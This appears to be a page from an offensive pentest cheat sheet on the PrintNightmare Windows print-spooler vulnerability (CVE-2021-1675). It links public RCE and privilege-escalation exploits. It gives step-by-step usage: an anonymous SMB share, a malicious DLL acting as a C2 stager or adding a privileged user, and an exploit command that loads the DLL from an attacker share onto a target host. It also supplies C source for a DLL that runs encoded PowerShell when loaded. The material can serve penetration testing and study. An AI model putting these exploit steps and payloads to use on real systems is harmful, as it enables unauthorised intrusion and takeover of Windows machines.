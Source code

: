 
### Exploit


#### C/C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)


#### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)
* [https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py)
* [https://www.hackthebox.eu/blog/windows-protocols-python](https://www.hackthebox.eu/blog/windows-protocols-python)

##### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed (`smbserver.py` also works):
2. Generate an evil DLL: a С2 stager / add user to a privileged group ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp), [3](https://github.com/calebstewart/CVE-2021-1675/tree/main/nightmare-dll), etc.) / invoke a [custom](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) command (see example below).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}
